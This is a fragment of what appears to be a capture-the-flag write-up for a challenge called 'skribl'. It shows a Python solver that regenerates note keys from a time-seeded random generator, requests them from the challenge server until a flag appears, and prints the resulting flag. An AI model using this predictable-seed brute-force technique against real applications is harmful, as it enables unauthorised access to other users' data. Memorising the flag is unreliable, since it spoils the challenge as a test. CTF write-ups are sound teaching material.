 ```python
    random.seed(seed)
    alphabet = string.ascii_letters + string.digits
    return "".join(random.choice(alphabet) for _ in range(40))

def main():
    created_datetime = generate_seed()
    for i in range(-1, 2):
        key = create_key(created_datetime + i)
        print(f"Trying key: {key}")
        resp = requests.get(f"https://skribl.chall.pwnoh.io/view/{key}")
        if "bctf{" in resp.text:
            flag = re.search(r"bctf{.*}", resp.text).group()
            print("Flag found:", flag)
            return
    print("Flag not found")

if __name__ == "__main__":
    main()
```
`Flag` : `bctf{wHy_d0_w3_Ne3d_s0_m@ny_N0T3$_aNyW@y}`
